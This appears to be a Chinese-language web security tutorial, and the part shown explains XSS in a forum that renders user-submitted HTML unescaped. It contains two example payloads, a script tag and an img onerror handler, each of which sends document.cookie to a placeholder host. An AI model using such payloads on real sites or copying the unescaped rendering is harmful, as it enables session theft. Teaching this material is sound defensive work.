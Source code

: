 ```yaml
---
title: Web 安全常见问题与防御措施
date: 2021-07-02 15:00:00
tags: 
- Secure
- JS
- HTML
categories: 
- DOC
---
```


记录 Web 开发中常见的安全问题以及防御方法。



# XSS 跨站脚本攻击

考虑到以下场景：
论坛网站，因为帖子支持表情、特殊字体字号等，所以帖子使用 HTML，并以此提交后端、入库储存；
看帖的页面，直接使用服务端渲染的方式输出：

```jsp
<%= postContent %>
```

<br />

这是很常见的场景，例如 Discuz 论坛等都是这种形式，而这也正是 XSS 跨站脚本攻击诞生的背景。

考虑以下情况，某黑客发帖，内容如下：

```html
你好
<script>
  $.post({ url: 'https://example.com', data: document.cookie })
</script>
```

因为这一段 HTML 被直接插入页面中，任何访问这篇帖子的用户都会中招，导致 Cookie 被发送给恶意网站。
这种攻击方式简单直观，却很致命。

最初级的防御措施，是禁止任何 `<script>` 标签，但这解决不了问题，黑客可以换一种发帖内容：

```html
你好
<img 
  src="no"
  style="displaye: none;"
  onerror="$.post({ url: 'https://example.com', data: document.cookie })"
/>
```

只需要使用一个 `<img>` 类的标签，赋予一个不存在的资源，这样它的 `onerror` 必定触发，此时只需要把代码写在事件回调中即可。
虽然攻击方式还是一样的，但是，这种方式就很难防御了，毕竟想识别这种攻击代码比 `<script>` 标签要复杂多了。
